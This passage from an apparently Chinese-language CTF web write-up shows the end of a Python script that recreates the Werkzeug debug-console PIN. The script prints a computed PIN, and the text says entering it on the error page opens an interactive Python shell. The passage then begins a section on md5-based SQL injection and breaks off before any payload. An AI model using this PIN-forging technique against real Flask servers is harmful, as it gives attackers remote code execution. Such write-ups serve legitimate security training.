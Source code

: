 ```python
    h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
print(rv)

#输出: 961-361-247
```

在报错页面输入pin之后,成功进入python的交互页面

![image-20221024164345369](/images/ctfweb-others/image-20221024164345369.png)

















# 关于md5

## md5_sql注入

假设服务器的查询语句为: 其中`$pass`是用户输入的内容

```
select * from 'admin' where password=md5($pass,true)
```

此时如果要注入,可以传:
